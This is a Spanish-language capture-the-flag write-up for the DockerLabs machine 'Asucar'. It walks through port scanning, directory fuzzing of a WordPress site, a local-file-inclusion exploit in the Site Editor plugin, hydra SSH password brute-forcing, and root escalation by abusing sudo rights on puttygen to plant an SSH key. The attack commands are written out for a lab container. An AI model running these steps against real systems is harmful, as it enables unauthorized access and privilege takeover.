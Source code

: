 # Máquina Asucar

Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p 172.17.0.2 -oN targeted
________________________________________________

```

![Pasted image 20240512163303](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/179bb0a9-5b73-4342-ba08-3e8b68fe7fcb)

Revisando el código fuente vemos que hay recursos que se están cargando de **asucar.d** por lo que lo añadimos a nuestro **/etc/hosts**.

```
172.17.0.2  asucar.dl
```

Aplicamos **Fuzzing**.

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 --add-slash
-----------------------------------------------------
/icons/               (Status: 403) [Size: 275]
/wp-content/          (Status: 200) [Size: 0]  
/wordpress/           (Status: 200) [Size: 745]
/wp-includes/         (Status: 200) [Size: 58715]
/wp-admin/            (Status: 302) [Size: 0]
```

He aplicado algo de reconocimiento con **wpscan** pero no he encontrado nada relevante.

--------------
## Explotación

Si le hacemos un curl a la página principal y vemos si desde ahí llama a algo con la palabra **plugin** vemos que está utilizando el plugin **site editor**.

![Pasted image 20240512164642](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/e7828a86-5bf9-41f7-a5df-057996781541)

Buscamos exploits para ese plugin concreto y encontramos un **LFI** para una versión un poco posterior a la que tenemos nosotros, por lo que es posible que nos sirva.

![Pasted image 20240512164622](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/8e01942a-dded-4294-81d1-80fb88c9f07f)

Lo podemos ver con el comando:

```shell
searchsploit -x php/webapps/44340.txt
```

![Pasted image 20240512164607](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/485c86fc-d985-43db-9e49-65c9f60700cb)

Nos da una **Proof of Concept** que adaptamos fácilmente a nuestra situación y tenemos el **LFI** !

![Pasted image 20240512164553](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/073656cf-bd46-46bc-be97-01df32e1f18d)

Vemos un usuario del sistema que se llama **curiosito**.
Aplicamos fuerza bruta con **hydra** sobre el usuario:

```shell
hydra -l curiosito -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
------------------------------------------------------------------
[22][ssh] host: 172.17.0.2   login: curiosito   password: password1
```

Estamos dentro !

------------------------------
## Escalada de privilegios

Si hacemos **sudo -l** vemos que podemos ejecutar **puttygen** como el usuario **root**:

```shell
sudo -l
----------------------------
User curiosito may run the following commands on a562c37486ba:
    (root) NOPASSWD: /usr/bin/puttygen
```

Lo podemos explotar con:

```shell
puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/id
puttygen -L ~/.ssh/id >> ~/.ssh/authorized_keys
sudo puttygen /home/curiosito/.ssh/id -o /root/.ssh/id
sudo puttygen /home/curiosito/.ssh/id -o /root/.ssh/authorized_keys -O public-openssh
```

Y en nuestra máquina atacante nos descargamos la clave y nos conectamos como **root**:

```shell
scp curiosito@172.17.0.2:/home/curiosito/.ssh/id .
ssh -i id root@172.17.0.2
```

```shell
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximos en el sistema !
